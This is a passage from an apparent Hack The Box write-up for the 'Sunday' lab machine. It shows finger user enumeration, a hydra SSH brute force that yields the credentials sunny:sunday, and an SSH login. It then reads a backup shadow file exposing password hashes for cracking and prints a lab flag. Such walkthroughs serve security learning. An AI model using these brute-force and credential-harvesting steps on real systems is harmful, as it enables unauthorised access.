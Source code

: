 	4. Verify w/ `finger`
		```
		┌──(root💀kali)-[~/htb/sunday/10.10.10.76/exploit/finger-user-enum-1.0]
		└─# finger sunny@$ip
		Login       Name               TTY         Idle    When    Where
		sunny           ???            ssh          <Sep  2 19:46> 10.10.14.31  
		
		┌──(root💀kali)-[~/htb/sunday/10.10.10.76/exploit/finger-user-enum-1.0]
		└─# finger sammy@$ip
		Login       Name               TTY         Idle    When    Where
		sammy           ???            ssh          <Apr 13 13:38> 10.10.14.13 
		```

## TCP/22022 (SSH) - Bruteforce
1. Bruteforce SSH w/ `hydra`
	```
	┌──(root💀kali)-[~/htb/sunday/10.10.10.76/exploit]
	└─# cat username.txt 
	sunny
	sammy
	
	┌──(root💀kali)-[~/htb/sunday/10.10.10.76/exploit]
	└─# hydra -L username.txt -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt ssh://sunday.htb:22022 -VI -e nsr -t 64
	
	[22022][ssh] host: sunday.htb   login: sunny   password: sunday
	```
	- `sunny:sunday`
2. SSH w/ `sunny:sunday`
	```
	┌──(root💀kali)-[~/htb/sunday/10.10.10.76/exploit]
	└─# sshpass -p 'sunday' ssh sunny@$ip -p 22022
	```
	![](Pasted%20image%2020220903040503.png)
3. User Flag
	```
	a3d9498027ca5187ba1793943ee8a598
	```
	![](Pasted%20image%2020220903040545.png)

# Privilege Escalation

## Sammy - Via Crack Hash
1. Found something interesting w/ `LinEnum.sh`
	![](Pasted%20image%2020220903060421.png)
	- `/backup/shadow.backup`
2. View `shadow.backup`
	```
	sunny@sunday:/tmp$ cat /backup/shadow.backup
	mysql:NP:::::::
	openldap:*LK*:::::::
	webservd:*LK*:::::::
	postgres:NP:::::::
	svctag:*LK*:6445::::::
	nobody:*LK*:6445::::::
	noaccess:*LK*:6445::::::
	nobody4:*LK*:6445::::::
	sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
	sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
	```
	- `SHA-256 Crypt` - [name-that-hash](https://nth.skerritt.blog)